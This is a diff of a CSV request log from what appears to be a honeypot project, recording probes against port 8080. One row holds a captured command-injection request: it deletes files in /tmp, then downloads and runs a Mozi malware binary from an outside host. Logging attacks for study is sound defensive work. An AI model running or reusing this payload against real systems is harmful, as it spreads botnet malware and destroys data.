

Before and after one commit to 9carlo6/CandyPot, a CSV file: requests/port_8080_requests.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/requests/port_8080_requests.csv
+++ b/requests/port_8080_requests.csv
+row 49: REQ_48_P8080 | ('137.184.37.199', 36262) | b'GET /manager/html HTTP/1.1\nHost: \nConnection: close\nUser_Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36\n\n\n' | 2022-05-10 17:43:31.229134
+row 50: REQ_49_P8080 | ('202.178.125.67', 59316) | b'GET /board.cgi?cmd=cd+/tmp;rm+-rf+*;wget+http://202.178.125.67:40396/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+varcron HTTP/1.0\r\n\r\n' | 2022-05-10 18:49:08.616911
+row 51: REQ_50_P8080 | ('167.249.90.73', 37141) | b'GET / HTTP/1.1\r\nHost: 54.91.30.20:8080\r\nUser-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36\r\nContent-Length: 0\r\n\r\n' | 2022-05-10 18:59:19.807968
+row 52: REQ_51_P8080 | ('137.184.38.61', 43458) | b'GET /manager/html HTTP/1.1\nHost: \nConnection: close\nUser_Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36\n\n\n' | 2022-05-10 19:09:48.469990
```
Also changed, not shown: requests/port_80_requests.csv, responses/port_80_responses.csv, 40 other files.
